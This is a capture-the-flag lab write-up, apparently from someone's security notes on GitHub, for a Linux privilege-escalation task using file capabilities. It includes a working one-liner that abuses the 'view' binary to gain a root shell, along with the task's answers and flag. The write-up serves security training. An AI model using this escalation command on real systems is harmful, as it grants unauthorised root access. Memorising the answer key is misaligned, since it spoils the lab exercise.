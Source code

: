 ## Privilege Escalation Capabilities Solution

### How many binaries have set capabilities?

1. Run the following command to list enabled capabilities

`getcap -r / 2>/dev/null`

![Screenshot 2024-02-08 at 1 16 42 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1b2cf992-c502-421a-9021-2b13e46733dc)


**Answer: 6**

### What other binary can be used through its capabilities?
1. Go to GTFO to check which binaries can be exploited via capabilities [https://gtfobins.github.io/#+capabilities](https://gtfobins.github.io/#+capabilities)
2. From GTFO we can see that from the list of enabled capabilities (see above) `view` can be used.

**Answer: view**

### What is the content of the flag4.txt file? ###
1. Execute the following command based from GTFO. Don't forget to prepend `py3` as py is not supported for the machine. 
```
cp $(which view) .
./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

2. Exit vim

3. Run `cat /home/ubuntu/flag4.txt`

![Screenshot 2024-02-08 at 9 47 18 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/775dc683-65c0-4ed8-9122-13997d390a7f)

**Answer: THM-9349843**
